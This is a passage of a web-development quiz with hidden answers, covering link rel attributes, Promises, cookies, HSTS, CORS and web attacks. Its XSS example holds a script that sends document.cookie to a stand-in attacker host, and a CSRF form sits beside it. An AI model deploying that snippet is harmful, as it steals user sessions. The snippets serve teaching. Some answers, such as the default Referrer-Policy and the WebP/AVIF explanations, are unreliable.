- G. `<link rel="stylesheet" href="https://fonts.googleapis.com..>`: Allowed (`style-src fonts.googleapis.com` allows styles from `fonts.googleapis.com`).
- H. `<video src="https://videos.example.com/..."></video>`: Not allowed (`default-src "none"` doesn't allow any videos by default).

</details>

---

### 16. Which statements are true?

- A. `rel="noopener"` is used to prevent the original page from accessing the `window` object of the newly opened page
- B. `rel="noreferrer"` can be used to prevent the newly opened page from accessing the `window` object of the original page
- C. `rel="noopener"` and `rel="noreferrer"` can only be used with HTTPS
- D. `rel="noopener"` can be used to prevent tabnabbing
- E. The default `Referrer-Policy` is `no-referrer-when-downgrade`

<details>
<summary><b>Answer</b></summary>
<br />

- B. `rel="noreferrer"` can be used to prevent the newly opened page from accessing the `window` object of the original page
- D. `rel="noopener"` can be used to prevent tabnabbing

Explanation:

- A. `rel="noopener"`: When using `window.open()` or a similar method to open a new window or tab, using `rel="noopener"` prevents the newly opened page from being able to access the `window` object of the original page. This is a security measure to mitigate potential security risks.

```html
<a
  target="_blank"
  rel="noopener"
  href="https://www.otherwebsite.com/learn"
/>

<!-- This will ensure -->
> window.opener
null
```

- B. `rel="noreferrer"` prevents the browser from sending a referrer header when navigating to the linked resource, it also prevent the newly opened page from accessing the `window` object of the original page. It implicitly adds `noopener`

```html
<a
  target="_blank"
  rel="noreferrer"
  href="https://www.otherwebsite.com/learn"
/>

<!-- This will ensure -->
> document.referrer
""
```

- C. Both `rel="noopener"` and `rel="noreferrer"` can be used with both HTTP and HTTPS.

- D. `rel="noopener"` is a security measure to prevent tabnabbing, where a newly opened page can navigate the original page to a malicious URL.

- E. The default `Referrer-Policy` is `no-referrer`, not `no-referrer-when-downgrade`.

> It's always good to use both noreferrer and noopener**

</details>

---

### 17. When does `"In log: My input!"` get logged?

```js
function* generatorFunc() {
  const result = yield "My input!";
  console.log("In log:", result);
  return "All done!"
};

const it = generatorFunc();
```

- A. `it.next()`
- B. `it.next("My input!")` `it.next()`
- C. `it.next()` `it.next("My input!")`
- D. `it.next()` `it.next()`

<details>
<summary><b>Answer</b></summary>
<br />

- C. `it.next()` `it.next("My input!")`

Explanation:



1. `it.next()`: The generator starts executing until it encounters the first `yield` statement and pauses, outputting `"My input!"`.
2. `it.next("My input!")`: Resumes the generator execution, and the value passed to the generator (`"My input!"`) becomes the result of the previous `yield` expression. The `console.log("In log:", result);` statement is executed, logging "In log: My input!".

</details>

---

### 18. Connect the Promise methods to the right output

```js
const promises = [
   new Promise(res => setTimeout(() => res(1), 200)),
   new Promise(res => setTimeout(() => res(2), 100)),
   new Promise((_, rej) => setTimeout(() => rej(3), 100)),
   new Promise(res => setTimeout(() => res(4), 300))
];

Promise[❓]
   .then(res => console.log("Result: ", res))
   .catch(err => console.log("Error: ", err))
```

- A. `all`
- B. `any`
- C. `race`
- D. `allSettled`

1. `Result: 2`
2. `Error: 3`
3. `Result: [{}, {}, {}, {}]`
4. `Result: 2`

<details>
<summary><b>Answer</b></summary>
<br />

- A. `all` 2. `Error: 3`
- B. `any` 1. `Result: 2`
- C. `race` 4. `Result: 2`
- D. `allSettled` 3. `Result: [{}, {}, {}, {}]`

Explanation:

- **Promise.all**
  - `Promise.all` is used when you want to wait for all promises in an iterable to be resolved. If any of the promises are rejected, the entire `Promise.all` is rejected.

  - `Promise.all(promises)` waits for all promises to settle, either resolving or rejecting.

  - If all promises resolve, the `.then` block is executed, and the result is an array of all resolved values. In this case, the output will be "Result: [1, 2, 4]".

  - If any promise in the array is rejected, the `.catch` block is executed, and the error is the value of the first rejected promise. In this case, the output will be "Error: 3".

  So, using `Promise.all` in this example will result in the catch block being executed with the error "Error: 3" due to the third promise rejecting.

- **Promise.any**
  - `Promise.any` is used when you want to wait for the first promise in an iterable to be fulfilled. If all promises are rejected, it is rejected with an `AggregateError` containing all the rejection reasons.

  - `Promise.any(promises)` waits for the first promise to fulfill. If multiple promises fulfill, it returns the value of the first fulfilled promise.

  - If all promises are rejected, the `.catch` block is executed with an `AggregateError` containing all rejection reasons. In this case, the output will be "Error: AggregateError: All promises were rejected".

  - If at least one promise is fulfilled, the `.then` block is executed with the value of the first fulfilled promise. In this case, the output will be "Result: 2", as the second promise resolves first.

  So, using `Promise.any` in this example will result in the `.then` block being executed with the result "Result: 2".

- **Promise.race**
  - `Promise.race` is used when you want to wait for the first promise in an iterable to settle, either by resolving or rejecting.

  - `Promise.race(promises)` waits for the first promise to settle. If the first promise resolves, the `.then` block is executed with the resolved value. If the first promise rejects, the `.catch` block is executed with the rejection reason.

  - In this case, the 2nd promise resolve with the value `2` first. Therefore, the output will be "Result: 2".

  So, using `Promise.race` in this example will result in the `.then` block being executed with the result "Result: 2".

- **Promise.allSettled**
  - `Promise.allSettled` is used when you want to wait for all promises in an iterable to settle, regardless of whether they resolve or reject.

  - `Promise.allSettled(promises)` waits for all promises to settle. It returns an array of objects, each representing the outcome of a corresponding promise in the input array.

  - The objects in the resulting array have the following shape: `{ status: 'fulfilled', value: <resolved value> }` for fulfilled promises and `{ status: 'rejected', reason: <rejection reason> }` for rejected promises.

  - In this case, the output will be an array of objects representing the outcome of each promise. The output might look like this:

    ```js
    [
      { status: 'fulfilled', value: 1 },
      { status: 'fulfilled', value: 2 },
      { status: 'rejected', reason: 3 },
      { status: 'fulfilled', value: 4 }
    ]
    ```

  - The `.then` block is then executed with the array of results.

  So, using `Promise.allSettled` in this example will result in the `.then` block being executed with an array of objects representing the outcome of each promise.

</details>

---

### 19. Which of the following values will always make your page ineligible for bfcache (back/forward cache)?

- A. `unload`
- B. `pagehide`
- C. `onbeforeunload`
- D. `pageshow`
- E. All of the above
- F. None of the above

<details>
<summary><b>Answer</b></summary>
<br />

- A. `unload`

Explanation:

Back/Forward cache (bfcache), also known as session history cache, is a browser optimization mechanism that allows web pages to be retained in the browser's cache when users navigate away and then return using the back or forward buttons.

Key points about bfcache:

1. **Caching State**: When a user navigates away from a page, the current page's state, including JavaScript variables and the Document Object Model (DOM), is cached.

2. **Fast Navigation**: When the user goes back or forward, instead of reloading the page from the server, the browser retrieves the cached page state, resulting in faster navigation.

3. **Ineligibility Conditions**: Certain conditions, such as using specific events like `unload`, or `onbeforeunload` (Firefox), can make a page ineligible for back/forward cache. This is because these events suggest that the page's state might not be suitable for caching.

4. **Improved User Experience**: Bfcache enhances the user experience by providing faster and smoother transitions between pages, especially when users navigate backward or forward in their browsing history.

</details>

---

### 20. Connect the terms with their definitions

- A. XSS
- B. CSRF
- C. UI Redressing
- D. MITM

1. allows attackers to inject malicious scripts into web pages viewed by others
2. tricks users into interacting with disguised or hidden elements
3. tricks users into executing unwanted actions by exploiting their authenticated session
4. allows attackers to intercept and modify communication between two parties without their knowledge

<details>
<summary><b>Answer</b></summary>
<br />

- A. XSS: 1. allows attackers to inject malicious scripts into web pages viewed by others
- B. CSRF: 3. tricks users into executing unwanted actions by exploiting their authenticated session
- C. UI Redressing: 2. tricks users into interacting with disguised or hidden elements
- D. MITM: 4. allows attackers to intercept and modify communication between two parties without their knowledge

Explanation:

- A. **XSS (Cross-Site Scripting)**: This is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can be executed by the victim's browser, leading to actions like stealing user sessions, personal information, or performing actions on behalf of the user without their consent.

```html
<!-- Attacker injects this script into a comment on a blog -->
<script>
  // Malicious code to steal user cookies
  const stolenCookies = document.cookie;
  // Send the stolen data to the attacker's server
  fetch('https://attacker.com/steal', { method: 'POST', body: stolenCookies });
</script>

<!-- Or -->

```

- B. **CSRF (Cross-Site Request Forgery)**: CSRF is an attack that tricks users into executing unwanted actions on a web application where they are authenticated. The attacker crafts a malicious request, and if the user is authenticated and has the necessary privileges, the request may be executed on their behalf without their knowledge.

```html
<!-- Attacker sends an email with a malicious link -->
<a href="https://banking-site.com/transfer?to=attacker&amount=1000000">Click to claim your prize!</a>

<!-- The site has this form -->
<body onload="submitForm()">
  <form action="https://banking-site.com/transfer" action="POST">
    <input type="hidden" name="recipient" value="attacker">
    <input type="hidden" name="amount" value="1000000">
</body>
```

- C. **UI Redressing**: Also known as Clickjacking, UI Redressing tricks users into interacting with disguised or hidden elements by overlaying them on top of seemingly harmless content. This technique deceives users into clicking on elements that perform unintended actions, potentially leading to security compromises.

```html
<!-- Malicious website overlaying a transparent layer on a legitimate site's button -->
<style>
  #maliciousButton {
    position: absolute;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
    opacity: 0;
  }
</style>

<div id="maliciousButton"></div>

<!-- Legitimate site's button -->
<button id="legitimateButton">Click me</button>

```

- D. **MITM (Man-in-the-Middle)**: In a Man-in-the-Middle attack, an attacker intercepts and possibly alters the communication between two parties without their knowledge. This can occur in various forms, such as eavesdropping on unsecured Wi-Fi networks or intercepting data between a user and a website. The attacker can read, modify, or inject new data into the communication.

```js
// In a hypothetical network interceptor
const originalFetch = window.fetch;

window.fetch = function(url, options) {
  // Log or manipulate the request before it is sent
  console.log(`Intercepted request to ${url}`);
  // Forward the request to the original fetch function
  return originalFetch(url, options);
};

```

</details>

---

### 21. Connect the font strategies to their definition

- A. `font-display: block`
- B. `font-display: swap`
- C. `font-display: fallback`
- D. `font-display: optional`
- E. `font-display: auto`

1. temporarily render an invisible font until the custom font has been downloaded
2. use a fallback font while the custom font is downloading, switch to the custom font when available
3. only use the custom font if it is available, otherwise use a fallback font
4. allows the browser to determine the most appropriate behavior for font loading
5. use the custom font if it is available, use a fallback font if the custom font is not available

<details>
<summary><b>Answer</b></summary>
<br />

- A. `font-display: block`: 1. temporarily render an invisible font until the custom font has been downloaded
- B. `font-display: swap`: 5. use the custom font if it is available, use a fallback font if the custom font is not available
- C. `font-display: fallback`: 2. use a fallback font while the custom font is downloading, switch to the custom font when available
- D. `font-display: optional`: 3. only use the custom font if it is available, otherwise use a fallback font
- E. `font-display: auto`: 4. allows the browser to determine the most appropriate behavior for font loading

Explanation:



</details>

---

### 22. What statements are true about the following cookie header?

```js
Set-Cookie: my-cookie="value"; Domain="website.com"; Secure; HttpOnly;
```

- A. This cookie is accessible from `www.website.com`, but not from `blog.website.com`
- B. This cookie can only be set client-side on the `website.com` domain
- C. This cookie gets treated like a session cookie
- D. This cookie will be sent when navigating from another website to `www.website.com`

<details>
<summary><b>Answer</b></summary>
<br />

- C. This cookie gets treated like a session cookie
- D. This cookie will be sent when navigating from another website to `www.website.com`

Explanation:


- A. The `Domain` attribute is set to `"website.com"`, which means the cookie is accessible from subdomains of `website.com`, including both `www.website.com` and `blog.website.com`. If the domain was not specified, this cookie would only be available on the exact domain that that cookie sets.

Also there is no `Same-Site` attribute set, it it will be defaulted to `Same-Site=Lax;` which means this cookie will be sent form top level navigations to that site. If we were on `https://www.otherwebsite.com` and we type `https://website.com`, in that request the cookie will still be set. It only applies to those top level navigations and as long as it is a get request and the connection is secure.

We also have `Same-Site=None`, which basically says that you and any website can have it. Also `Same-Site=Strict` which only allows the cookie to be read by the same site.

- B. It cannot be set client-side at all, because we have the **HttpOnly** sot it can't be accessed by client side. `document.cookie`. It only be included in HTTP requests.

- C. The given `Set-Cookie` header lacks explicit instructions regarding the duration of the cookie (e.g., no `Expires` or `Max-Age` attribute). In the absence of a specified expiration, the cookie becomes a session cookie, which means it will be stored temporarily and expire when the user closes their browser.

- D. The `Secure` attribute is present, indicating that the cookie should only be sent over HTTPS connections. If a user navigates to `www.website.com` from another website using a secure connection (HTTPS), the cookie will be included in the request. It won't be sent if the connection is not secure. This helps enhance the security of the cookie by ensuring it's transmitted over encrypted connections.

</details>

---

### 23. Which of the CSS (pseudo)selectors can we use to only target the first list item `<li>One</li>`?

```html
<div>
  <ul>
    <li>One</li>
    <ul>
      <li>Two</li>
      <li>Three</li>
    </ul>
  </ul>
  <ul>
    <li>Four</li>
  </ul>
</div>
```

- A. `ul:first-child > li`
- B. `ul:first-child + li`
- C. `ul:first-child > li:first-child`
- D. `ul:first-of-type > li:first-of-type`
- E. `ul:first-child + li:first-child`

<details>
<summary><b>Answer</b></summary>
<br />

- A. `ul:first-child > li`
- C. `ul:first-child > li:first-child`

Explanation:

> `>` Target combinator,
> `+` Adjacent sibling combinator

- A. `ul:first-child > li`: This selector targets the direct child `<li>` of the first `<ul>`. The `ul:first-child` part selects the first `<ul>`, and `> li` then selects the direct child `<li>`. So, it matches the first list item `<li>One</li>`.

- B. `ul:first-child + li`: This selector targets an `<li>` that is an adjacent sibling of the first `<ul>`. However, in the provided HTML structure, the first `<ul>` has a nested `<ul>` as its sibling, not an `<li>`. Therefore, this selector won't match anything in the given markup.

- C. `ul:first-child > li:first-child`: This selector targets the first child `<li>` of the first `<ul>`. The `ul:first-child` part selects the first `<ul>`, and `> li:first-child` then specifically selects the first child `<li>`. Again, it matches the first list item `<li>One</li>`.

- D. `ul:first-of-type > li:first-of-type`: This selector targets the first `<ul>` and then selects the first child `<li>` of any `<ul>`. It doesn't specifically target the first child `<li>` of the first `<ul>`. It will match the first list item `<li>One</li>`, but it may also match other first `<li>` elements in subsequent `<ul>` elements.

- E. `ul:first-child + li:first-child`: This selector targets the first child `<li>` that is an adjacent sibling of the first `<ul>`. However, in the given HTML structure, the first `<ul>` has a nested `<ul>` as its sibling, not an `<li>`. Therefore, this selector won't match anything in the provided markup.

</details>

---

### 24. What is true about the following header?

```js
Strict-Transport-Security: max-age=31536000; includeSubdomains;
```

- A. The header enforces HTTPS for one year on the domain and its subdomains
- B. When `max-age` expires, browsers will default to HTTP
- C. The `max-age` is refreshed every time the browser reads the header
- D. Insecure requests to subdomains are allowed

<details>
<summary><b>Answer</b></summary>
<br />

- A. The header enforces HTTPS for one year on the domain and its subdomains
- C. The `max-age` is refreshed every time the browser reads the header

Explanation:



```bash
$ curl --head http://github.com

HTTP/1.1 301 Moved Permanently
Location: https://github.com/
```

- `max-age=31536000`: The `max-age` directive specifies the time, in seconds, during which the user agent should regard the host (and its subdomains) as a known HSTS(Strict-Transport-Security) host. In this case, it's set to one year (60 seconds * 60 minutes * 24 hours * 365 days).

- `includeSubdomains`: The `includeSubdomains` directive indicates that the HSTS policy should also be applied to all subdomains of the host.

So, the given header enforces HTTPS for one year on the domain and all of its subdomains. Once a user agent sees this header, it will remember to access the site and its subdomains over HTTPS for the specified duration.

- B. When `max-age` expires, the browser will continue to enforce HTTPS because the same cycle will repeat again. Ref: Diagram

- C. The `max-age` value indicates the duration of the HSTS policy, and it refresh every time the browser reads the header, so if a user visits https://github.com at least once every year, they'll be indefinitely protected by HSTS.

- D. The `includeSubdomains` directive ensures that the HSTS policy is applied to all subdomains, and insecure requests are not allowed.

</details>

---

### 25. Which of the following properties causes the element to be promoted to its own RenderLayer?

- A. `z-index: 1`
- B. `translate3d: (0, 0, 0)`
- C. `will-change: transform`
- D. `transform: rotate(45deg)`
- E. `position: fixed`
- F. `position: absolute`

<details>
<summary><b>Answer</b></summary>
<br />

- B. `translate3d: (0, 0, 0)`
- C. `will-change: transform`
- D. `transform: rotate(45deg)`
- E. `position: fixed`

Explanation:

```css

will-change: transform
position: fixed
opacity
filter
transform: translateZ(0)
backface-visibility: hidden
will-change: opacity
<video>
WebGL <canvas>
transform: rotateY(45deg)
```

etc.

</details>

---

### 26. Match the image formats to the  descriptions

- A. JPEG
- B. PNG
- C. WebP
- D. AVIF

1. Both lossy and lossless compression, supports HDR and WCG, supports transparency
2. Both lossy and lossless compression, supports transparency, supports progressive rendering
3. Lossless compression, high quality, supports transparency, larger file size
4. Lossy compression, supports progressive rendering

<details>
<summary><b>Answer</b></summary>
<br />

- A. JPEG: 4. Lossy compression, supports progressive rendering
- B. PNG: 3. Lossless compression, high quality, supports transparency, larger file size
- C. WebP: 2. Both lossy and lossless compression, supports transparency, supports progressive rendering
- D. AVIF: 1. Both lossy and lossless compression, supports HDR and WCG, supports transparency

Explanation:

1. **JPEG (A)**: JPEG is a lossy compression format commonly used for photographs and images with gradient colors. It supports progressive rendering, allowing a low-quality version of the image to be displayed quickly, followed by a higher-quality version.

2. **PNG (B)**: PNG is a lossless compression format often used for images with transparency. It provides high quality but can result in larger file sizes compared to some lossy formats.

3. **WebP (C)**: WebP is a modern image format developed by Google. It supports both lossy and lossless compression, making it versatile. It also supports transparency and features like HDR (High Dynamic Range) and WCG (Wide Color Gamut).

4. **AVIF (D)**: AVIF is a relatively new image format that supports both lossy and lossless compression. It excels in providing high compression efficiency while maintaining image quality. It also supports transparency and progressive rendering.

</details>

---

### 27. What is true about the following CORS config?

```js
Access-Control-Allow-Origin: https://www.website.com
Access-Control-Allow-Headers: Content-Type
Access-Control-Allow-Methods: *
Access-Control-Expose-Headers: X-Custom-Header
Access-Control-Max-Age: 600
```

- A. A preflight request is required
- B. Only requests from `https://www.website.com` are allowed
- C. Requests with cookies are allowed
- D. The actual response is cached for 600ms
- E. `X-Custom-Header` will be the only included response header
- F. `GET`, `POST`, `PATCH` and `PUT` methods are allowed, but not `DELETE`

<details>
<summary><b>Answer</b></summary>
<br />

- B. Only requests from `https://www.website.com` are allowed

Explanation:



- `Access-Control-Allow-Origin: https://www.website.com`: This header specifies that only requests from `https://www.website.com` are allowed. This is known as the "Allowed Origins" header. It restricts cross-origin requests to only those coming from the specified origin.

- Cookies are not allowed because `Access-Control-Allow-Credentials` is not set

- `Access-Control-Allow-Headers: Content-Type`: This header allows the inclusion of the `Content-Type` header in the actual request. It doesn't restrict other headers explicitly but specifies that the `Content-Type` header is permitted.

- `Access-Control-Allow-Methods: *`: This header allows any HTTP method (e.g., `GET`, `POST`, `PUT`, `DELETE`). The `*` wildcard means that all methods are allowed. This header is known as the "Allowed Methods" header.

- `Access-Control-Expose-Headers: X-Custom-Header`: This header indicates that the response may include the `X-Custom-Header`, and the browser should expose it to the requesting client-side code.

- `Access-Control-Max-Age: 600`: This header specifies that the results of a preflight request (if required) can be cached for 600 seconds (10 minutes). This reduces the number of preflight requests.

In summary:

By default our browsers implement something called the same origin policy, which prevents any cross origin requests. CORS actually and extension of that same origin policy but instead it allows us to do cross-origin resource sharing. We are going from `https://www.website.com` to `https://api.other.com/posts` and with CORS it also adds the origin header, so this request came from `https://www.website.com` and the server if it has the CORS headers configuration will then respond it has CORS with the access control allow origin. And this header essentially says okay, this is fine, responses are allowed, requests from this origin are allowed to read the resource I'm sending to you. CORS has a checklist does the access control allow origin match the origin of the request. If it matches then the resource is allowed to be accessed by the browser. If not then the resource will be blocked.

**It's important to remember that CORS is in your browsers and in your user-agent. It is not on server. It's just a browser security feature that make sure that when you're fetching a resource or doing anything it's from a secure origin or they allow that response to be read**.



</details>

---

### 28. What gets logged?

```js
setTimeout(() => console.log(1));

(async () => {
  console.log(2);
  await Promise.resolve();
  console.log(3);
})()

Promise.resolve().then(() => Promise.resolve().then(() => console.log(4)))
```

- A. `1` `2` `3` `4` 
- B. `2` `4` `3` `1` 
- C. `2` `3` `4` `1` 
- D. `2` `3` `1` `4` 

<details>
<summary><b>Answer</b></summary>
<br />

C. `2` `3` `4` `1`

Explanation:

1. `console.log(2)` is the first statement executed because it's part of the immediately-invoked function expression (IIFE), and the IIFE is invoked as soon as the script is executed.

2. `await Promise.resolve()` pauses the execution until the promise is resolved, but in this case, it's immediately resolved. So, `console.log(3)` is executed after the promise is resolved.

3. `Promise.resolve().then(() => Promise.resolve().then(() => console.log(4)))` schedules a microtask. When the microtask queue is processed, it logs `4`.

4. `setTimeout(() => console.log(1))` schedules a task to log `1` after a timeout. This runs after the microtask queue is cleared.

</details>

---

### 29. What statements are correct?

- A. HTTP/2 allows multiple requests and responses concurrently over a single TCP connection
- B. HTTP/3 can only be used with HTTPS
- C. HTTP/2 is backward compatible with HTTP/1.1
- D. HTTP/1.0 requires multiple TCP connections to process multiple requests simultaneously

<details>
<summary><b>Answer</b></summary>
<br />

All of them are correct.



- A. HTTP/2 allows multiple requests and responses concurrently over a single TCP connection.

  Explanation: HTTP/2 introduces multiplexing, allowing multiple requests and responses to be sent concurrently over a single TCP connection. This improves efficiency compared to HTTP/1.1, where each request typically required a separate connection.

- B. HTTP/3 can only be used with HTTPS.

  Explanation: HTTP/3 relies on the QUIC transport protocol, adn it is designed to work exclusively over UDP. Since most browsers restrict the usage of QUIC to secure connections (HTTPS), this statement is correct.

- C. HTTP/2 is backward compatible with HTTP/1.1.

  Explanation: HTTP/2 is designed to be backward compatible with HTTP/1.1. This means that if a client or server does not support HTTP/2, the communication can fall back to using HTTP/1.1 without issues.

- D. HTTP/1.0 requires multiple TCP connections to process multiple requests simultaneously.

  Explanation: In HTTP/1.0, each request typically requires a separate TCP connection. This can lead to inefficiencies, especially when many small resources need to be loaded, as each connection has its associated overhead. In contrast, HTTP/2's multiplexing allows multiple requests to be sent concurrently over a single connection, improving performance.

</details>

---

### 30. What gets logged?

```js
const objA = { 
  type: "A",
  foo() { 
    console.log(this.type) 
  }
}

const objB = { 
  type: "B",
  foo: objA.foo,
  bar: () => objA.foo(),
  baz() { objA.foo() }
}

objB.foo();
objB.bar();
objB.baz(); 
```

- A. `A` `B` `B`
- B. `B` `A` `A`
- C. `A` `A` `A`
- D. `A` `undefined` `A`
- E. `B` `undefined` `B`


<details>
<summary>💡 <b>Resources</b></summary>
 <br />
 
 Answer:
 - [**Watch Answer & Explanation**](https://frontendmasters.com/courses/web-dev-quiz/q28-event-loop/)
 
Further reading: 
 - https://tc39.es/ecma262/#sec-function-environment-records-getthisbinding
 - https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/this
 - https://javascript.info/object-methods

</details>

